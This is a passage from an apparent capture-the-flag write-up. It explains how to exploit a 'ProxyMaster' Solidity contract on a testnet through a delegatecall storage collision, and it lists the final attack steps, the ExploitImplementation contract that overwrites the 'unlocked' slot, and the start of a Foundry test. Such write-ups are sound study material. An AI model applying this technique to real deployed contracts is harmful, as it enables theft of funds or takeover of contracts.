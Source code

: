 4. Call the `execute` function on the `ProxyMaster` contract, passing in the calldata to call a function in our `ExploitImplementation` that sets its storage slot 1 variable to `true`.

5. Since `delegatecall` is used, this will effectively set the `unlocked` variable in `ProxyMaster` to `true`.

6. Finally, call `getFlag()` on the `ProxyMaster` contract to retrieve the flag.
## Exploit Implementation

### `ExploitImplementation.sol`

We create a simple contract `ExploitImplementation` with a `bool` variable `newUnlocked` at storage slot 1 (to align with `ProxyMaster`'s `unlocked` variable) and a function `setUnlocked` to modify it.

```solidity

// SPDX-License-Identifier: MIT

pragma solidity ^0.8.0;

  

contract ExploitImplementation {

address public dummy; // This will occupy storage slot 0, aligning with 'implementation' in ProxyMaster

bool public newUnlocked; // This will occupy storage slot 1, aligning with 'unlocked' in ProxyMaster

  

function setUnlocked(bool _newUnlocked) external {

newUnlocked = _newUnlocked;

}

}

```

### Foundry Test (`ProxyMaster.t.sol`)

To test the exploit locally, we use Foundry. We fork the Base Sepolia network and interact with the deployed `ProxyMaster` contract.


```solidity

// SPDX-License-Identifier: MIT

pragma solidity ^0.8.0;

  

import "forge-std/Test.sol";

import "forge-std/console.sol";

import "./ProxyMaster.sol";

import "./ExploitImplementation.sol";

  
```